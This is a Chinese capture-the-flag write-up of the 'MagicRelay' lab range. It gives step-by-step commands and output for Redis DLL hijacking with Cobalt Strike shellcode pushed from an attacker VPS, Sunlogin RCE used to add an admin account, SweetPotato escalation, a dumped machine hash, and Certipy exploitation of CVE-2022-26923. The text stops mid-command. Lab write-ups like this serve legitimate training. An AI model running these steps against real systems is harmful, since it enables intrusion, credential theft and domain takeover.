# 春秋云境 MagicRelay WP-先知社区

> **来源**: https://xz.aliyun.com/news/17070  
> **文章ID**: 17070

---

## 1. 知识点

* redis dll劫持
* 向日葵RCE
* Pass the Certificate
* CVE-2022-26923 (Certifried)

## 2. 工具下载

* [GitHub - ly4k/Certipy](https://github.com/ly4k/Certipy)
* [sbkiddie-/hackingwin/dllhijack/DLLHijacker.py](https://github.com/JKme/sb_kiddie-/blob/master/hacking_win/dll_hijack/DLLHijacker.py)
* [GitHub - r35tart/RedisWriteFile: 通过 Redis 主从写出无损文件](https://github.com/r35tart/RedisWriteFile)
* [PentestTools/windows/passthecert.py](https://github.com/lefayjey/PentestTools/blob/master/windows/passthecert.py)
* [GitHub - Mr-xn/sunloginrce: 向日葵 RCE](https://github.com/Mr-xn/sunlogin_rce)

## 3. flag01

### 3.1. 信息收集

```
D:\tools\fscan-Chinese>fscan -h 39.98.112.155

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| __/ _ |/ __| |/ /
/ /_\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 
[*] 开始信息扫描...
[*] 最终有效主机数量: 1
[*] 共解析 218 个有效端口
[+] 端口开放 39.98.112.155:135
[+] 端口开放 39.98.112.155:139
[+] 端口开放 39.98.112.155:6379
[+] 存活端口数量: 3
[*] 开始漏洞扫描...
[+] Redis扫描模块开始...
[*] NetInfo
[*] 39.98.112.155
   [->] WIN-YUYAOX9Q
   [->] 172.22.12.25
[+] Redis 39.98.112.155:6379 发现未授权访问 文件位置:C:\Program Files\Redis/dump.rdb
[!] 扫描错误 39.98.112.155:139 - netbios error
[+] 扫描已完成: 3/3
[*] 扫描结束,耗时: 10.1078605s
```

### 3.2. redis 未授权

这里发现

* redis版本是3.x 那么我们用不了主从同步
* 而且redis是在windows上部署的。那么也用不了linux的一些方式，如写计划任务，写公钥
* 服务器没有开放80端口，那么我们也不能写webshell  
  

剩下的windows利用方式

* 写启动项 但是我们这里做不到让靶机重启，只能让靶机重置 所以也放弃
* 写入MOF 但是版本靶机版本是win2019 要求是win2003 所以此方法不行  
    
  最后就剩下DLL劫持了

### 3.3. Redis DLL劫持上线CS

参考文章： [Windows中redis未授权通过dll劫持上线 - 我要变超人 - 博客园](https://www.cnblogs.com/sup3rman/p/16803408.html)

```
redis-cli -h [RedisIP] 
info 
```

`info` 命令获取安装路径 `C:\Program Files\Redis
edis.windows-service.conf`  


从本地的**system32**文件夹下提取出 `dbghelp.dll`，然后使用 [dllHijack](https://github.com/JKme/sb_kiddie-/blob/master/hacking_win/dll_hijack/DLLHijacker.py) 脚本，

> dllHijack这里最好是用[这个](https://github.com/JKme/sb_kiddie-/blob/master/hacking_win/dll_hijack/DLLHijacker.py)修改过的， [原来的脚本](https://github.com/lefayjey/PentestTools/blob/master/windows/passthecert.py)会报错  
> 由于每个人的操作版本不一样，所以**system32**文件夹下面的 **dbghelp.dll** 可能也会有区别，这里我用的是 winserver 2019 build 17763 版本里面的**dbghelp.dll**

用脚本生成**dbghelp.dll** 的Visual Studio 2019的项目文件

```
python3 DllHijacker.py dbghelp.dll 
```

再用**visual Studio 2019** 打开项目文件（2022版我没有试过）

```
***********************重点***********************
请在VS2019中修改项目的属性如果不改，那么靶机无法加载生成出来的DLL
属性->C/C++->代码生成->运行库->多线程 (/MT)如果是debug则设置成MTD  
属性->C/C++->代码生成->禁用安全检查GS
关闭生成清单 属性->链接器->清单文件->生成清单 选择否
```

然后打开CS 生成一个payload 输出格式为C  
  
在VS2019中替换 `dllmain.cpp` 中的shellcode   
  
然后选择 `Release` `x64` 生成DLL文件  
把生成好的文件上传到 `RedisWriteFile.py` 同级目录下面  
然后把脚本 `RedisWriteFile` 文件夹上传到你的VPS上，  
执行命令，记得在安全组里面开放你vps的16379端口

```
#上传DLL到靶机
root@hcss-ecs-0abd:/home/Redis_Server/RedisWriteFile-master# python3 RedisWriteFile.py --rhost 【靶机IP】 --rport 6379 --lhost 【你的VPS地址】  --lport 16379 --rpath 'C:\Program Files\Redis\' --rfile 'dbghelp.dll' --lfile 'dbghelp.dll'

______         _ _     _    _      _ _      ______ _ _      
| ___ \       | (_)   | |  | |    (_) |     |  ___(_) |     
| |_/ /___  __| |_ ___| |  | |_ __ _| |_ ___| |_   _| | ___ 
|    // _ \/ _ | / __| |/\| | ''__| | __/ _ \  _| | | |/ _ \
| |\ \  __/ (_| | \__ \  /\  / |  | | ||  __/ |   | | |  __/
\_| \_\___|\__,_|_|___/\/  \/|_|  |_|\__\___\_|   |_|_|\___|     

                    Author : R3start   
          Reference : redis-rogue-server.py

[info] TARGET 39.98.110.252:6379
[info] SERVER 124.71.111.64:16379
[info] 连接恶意主服务器: 124.71.111.64:16379 
[info] 连接恶意主状态: +OK
 
[info] 设置写出路径为: C:\Program Files\Redis\ 
[info] 设置写出路径状态: +OK
 
[info] 设置写出文件为: dbghelp.dll
[info] 设置写出文件状态: +OK
 
[info] 断开主从连接: +OK

[info] 恢复原始文件名: +OK

#连接靶机redis 执行命令加载DLL
root@hcss-ecs-0abd:/home/Redis_Server/RedisWriteFile-master# redis-cli -h 39.98.110.252
39.98.110.252:6379> bgsave
Background saving started
```

然后就可以看到靶机上线CS了  
  
上线后就是本地管理员权限，可以直接拿flag1

## 4. flag02

CS中上传SweetPotato 进行提权 Stowaway搭建代理 Fscan进行内网扫描SharpHound进行域信息收集

### 4.1. 内网扫描

```
[*] 开始信息扫描...
[*] CIDR范围: 172.22.12.0-172.22.12.255
[*] 已生成IP范围: 172.22.12.0 - 172.22.12.255
[*] 已解析CIDR 172.22.12.31/24 -> IP范围 172.22.12.0-172.22.12.255
[*] 最终有效主机数量: 256
[+] 目标 172.22.12.6     存活 (ICMP)
[+] 目标 172.22.12.12    存活 (ICMP)
[+] 目标 172.22.12.25    存活 (ICMP)
[+] 目标 172.22.12.31    存活 (ICMP)
[+] ICMP存活主机数量: 4
[*] 共解析 218 个有效端口
[+] 端口开放 172.22.12.31:80
[+] 端口开放 172.22.12.12:80
[+] 端口开放 172.22.12.6:139
[+] 端口开放 172.22.12.25:135
[+] 端口开放 172.22.12.31:21
[+] 端口开放 172.22.12.12:135
[+] 端口开放 172.22.12.31:445
[+] 端口开放 172.22.12.31:135
[+] 端口开放 172.22.12.25:445
[+] 端口开放 172.22.12.6:135
[+] 端口开放 172.22.12.12:445
[+] 端口开放 172.22.12.6:88
[+] 端口开放 172.22.12.6:445
[+] 端口开放 172.22.12.25:6379
[+] 端口开放 172.22.12.25:139
[+] 端口开放 172.22.12.31:139
[+] 端口开放 172.22.12.12:139
[+] 存活端口数量: 17
[*] 开始漏洞扫描...
[+] Redis扫描模块开始...
[!] 扫描错误 172.22.12.25:445 - read tcp 172.22.12.31:51113->172.22.12.25:445: wsarecv: An existing connection was forcibly closed by the remote host.
[!] 扫描错误 172.22.12.31:445 - read tcp 172.22.12.31:51123->172.22.12.31:445: wsarecv: An existing connection was forcibly closed by the remote host.
[*] NetInfo
[*] 172.22.12.6
   [->] WIN-SERVER
   [->] 172.22.12.6
[!] 扫描错误 172.22.12.12:445 - 无法确定目标是否存在漏洞
[!] 扫描错误 172.22.12.6:88 - Get "http://172.22.12.6:88": read tcp 172.22.12.31:51127->172.22.12.6:88: wsarecv: An existing connection was forcibly closed by the remote host.
[*] NetInfo
[*] 172.22.12.12
   [->] WIN-AUTHORITY
   [->] 172.22.12.12
[*] NetInfo
[*] 172.22.12.25
   [->] WIN-YUYAOX9Q
   [->] 172.22.12.25
[*] NetInfo
[*] 172.22.12.31
   [->] WIN-IISQE3PC
   [->] 172.22.12.31
[*] NetBios 172.22.12.25    XIAORANG\WIN-YUYAOX9Q
[*] OsInfo 172.22.12.6  (Windows Server 2016 Standard 14393)
[+] ftp 172.22.12.31:21:anonymous
   [->]SunloginClient_11.0.0.33826_x64.exe
[*] NetBios 172.22.12.6     [+] DC:WIN-SERVER.xiaorang.lab       Windows Server 2016 Standard 14393
[*] NetBios 172.22.12.12    WIN-AUTHORITY.xiaorang.lab          Windows Server 2016 Datacenter 14393
[*] 网站标题 http://172.22.12.12       状态码:200 长度:703    标题:IIS Windows Server
[*] 网站标题 http://172.22.12.31       状态码:200 长度:703    标题:IIS Windows Server
[+] [发现漏洞] 目标: http://172.22.12.12
  漏洞类型: poc-yaml-active-directory-certsrv-detect
  漏洞名称:
  详细信息: %!s(<nil>)
[!] 扫描错误 172.22.12.31:139 - netbios error
[+] Redis 172.22.12.25:6379 发现未授权访问 文件位置:C:\Program Files\Redis/dump.rdb
[+] 扫描已完成: 17/17
[*] 扫描结束,耗时: 14.0791992s

```

```
172.22.12.6    DC:WIN-SERVER.xiaorang.lab  域控
172.22.12.25   WIN-YUYAOX9Q.xiaorang.lab  redis服务器 已拿下 
172.22.12.31   WORKGROUP\WIN-IISQE3PC  IIS网站 ftp匿名 向日葵rce
172.22.12.12   WIN-AUTHORITY.xiaorang.lab  CA服务器
```

### 4.2. 内网代理搭建

```
stowaway_admin -l 1122
stowaway_agent -c  服务端IP:1122
```



### 4.3. 向日葵RCE

Fscan扫描时 发现主机 `172.22.12.31` 有向日葵的安装包，猜测主机 `172.22.12.31` 上应该安装了向日葵  
而且版本较低，可以尝试进行RCE利用  
[GitHub - Mr-xn/sunloginrce: 向日葵 RCE](https://github.com/Mr-xn/sunlogin_rce)  


```
[02/27 07:52:57] beacon> shell netstat -ano
[02/27 07:52:57] [*] Tasked beacon to run: netstat -ano
[02/27 07:52:58] [+] host called home, sent: 43 bytes
[02/27 07:52:58] [+] received output:

活动连接

  协议  本地地址          外部地址        状态           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       820
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       996
  TCP    0.0.0.0:6379           0.0.0.0:0              LISTENING       3288
  TCP    0.0.0.0:15774          0.0.0.0:0              LISTENING       3504
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4


```

**向日葵RCE利用**

```
#扫描向日葵端口
xrkRce.exe -h 172.22.12.31  -t scan
----------------------------------------------

[Info] 正在扫描中,请稍等....
[Info] 目标可能存在Rce!端口: 49685                    
花费时间为: 1m40.2054255s
----------------------------------------------

#执行命令
c:\Users\Public>xrkRce.exe -h 172.22.12.31  -t rce -p 49685 -c "whoami"

#发现是系统权限，直接添加一个账号 RDP上去
xrkRce.exe -h 172.22.12.31  -t rce -p 49685 -c "net user c1trus Admin123！/add"
xrkRce.exe -h 172.22.12.31  -t rce -p 49685 -c "net localgroup Administrators  c1trus /add"
```

因为向日葵这台机器没有加入域中，所以我们也没必要上线CS了。直接拿flag即可

### 5.1. 土豆提权与域信息收集

在Redis 机器上执行命令 `whoami /priv` 发现有 `SeImpersonatePrivilege` 权限   
  
那么直接上传 [sweetpotato](https://github.com/uknowsec/SweetPotato/tree/master/SweetPotato-Webshell-new/bin/Release)  提权即可，  
提权后上传一个CS后门，上线系统用户。  
然后以系统权限收集一下域内信息，因为本地管理员无法与域交互，所以这里需要用系统权限执行 [[../../26-工具使用/BloodHound使用|SharpHound]] 收集域内信息,

```
#上线CS
shell C:\Users\Public\sweetpotato.exe -a "C:\Users\Public\beacon.exe"
#收集域内信息
shell C:\Users\Public\Desktop\sharphound.exe -c all --outputdirectory C:\Users\Public\
```

  
然后抓一下机器用户的hash 后面会用到

```
 Username : WIN-YUYAOX9Q$
 * Domain   : XIAORANG
 * NTLM     : e611213c6a712f9b18a8d056005a4f0f
 * SHA1     : 1a8d2c95320592037c0fa583c1f62212d4ff8ce9
```

### 5.2. bloodhound分析域信息

把收集到的压缩包上传到 bloodhound上面去分析  
  
简单看了下，没有啥明显的路径。 但是给了我们一个提示 CA服务器

### 5.3. CVE-2022-26923 (Certifried)

漏洞文章：[CVE-2022-26923 (Certifried) explained](https://www.hackthebox.com/blog/cve-2022-26923-certifried-explained)  
在用Fscan进行内网扫描时 爆出 `172.22.12.12` CA服务器 存在 `poc yaml active directory certsrv detect`  
这是一个 Active Directory 域权限提升漏洞，通过滥用 Active Directory 证书服务 （AD CS） 来请求具有任意攻击者控制的 DNS 主机名的计算机证书，这可以使域中的任何计算机帐户模拟域控制器，从而实现完全的域接管。

\*\*获取CA名字 `xiaorang-WIN-AUTHORITY-CA` \*\*

```
[02/27 09:48:32] beacon># shell certutil
[02/27 09:48:32] [*] Tasked beacon to run: certutil
[02/27 09:48:32] [+] host called home, sent: 39 bytes
[02/27 09:48:32] [+] received output:
项 0:
  名称:                       "xiaorang-WIN-AUTHORITY-CA"
  部门:                       ""
  单位:                       ""
  区域:                       ""
  省/自治区:                  ""
  国家/地区:                  ""
  配置:                       "WIN-AUTHORITY.xiaorang.lab\xiaorang-WIN-AUTHORITY-CA"
  Exchange 证书:              ""
  签名证书:                   ""
  描述:                       ""
  服务器:                     "WIN-AUTHORITY.xiaorang.lab"
  颁发机构:                   "xiaorang-WIN-AUTHORITY-CA"
  净化的名称:                 "xiaorang-WIN-AUTHORITY-CA"
  短名称:                     "xiaorang-WIN-AUTHORITY-CA"
  净化的短名称:               "xiaorang-WIN-AUTHORITY-CA"
  标记:                       "1"
  Web 注册服务器:             ""
CertUtil: -dump 命令成功完成。

```

然后配置一下hosts

```
#/etc/hosts
172.22.12.6 WIN-SERVER.xiaorang.lab
172.22.12.12 xiaorang-WIN-AUTHORITY-CA
172.22.12.6 xiaorang.lab
172.22.12.12 WIN-AUTHORITY.xiaorang.lab
```

然后需要一个域内用户账号创建一个机器账号，此机器账号用于冒充域管  
这里我们前面抓到的 `WIN-YUYAOX9Q$` 机器账号的hash就派上用场了  
**利用**`WIN-YUYAOX9Q$` **机器用户新建一个机器用户**

```
┌──(root㉿kali)-[~]
└─# proxychains -q certipy account create -u WIN-YUYAOX9Q$ -hashes e611213c6a712f9b18a8d056005a4f0f  -dc-ip 172.22.12.6 -user citrus -dns WIN-SERVER.xiaorang.lab -debug 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Authenticating to LDAP server
[+] Bound to ldaps://172.22.12.6:636 - ssl
[+] Default path: DC=xiaorang,DC=lab
[+] Configuration path: CN=Configuration,DC=xiaorang,DC=lab
[*] Creating new account:
    sAMAccountName                      : citrus$
    unicodePwd                          : AdoEtAH3KlhwIgS8
    userAccountControl                  : 4096
    servicePrincipalName                : HOST/citrus
                                          RestrictedKrbHost/citrus
    dnsHostName                         : WIN-SERVER.xiaorang.lab
[*] Successfully created account 'citrus$' with password 'AdoEtAH3KlhwIgS8'
```

然后使用创建好的机器账号申请一个证书

```
──(root㉿kali)-[~/Desktop]
└─# proxychains certipy req -u 'citrus$@xiaorang.lab' -p 'AdoEtAH3KlhwIgS8' -ca 'xiaorang-WIN-AUTHORITY-CA' -target 172.22.12.12 -template 'Machine' -debug -dc-ip 172.22.12.6
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
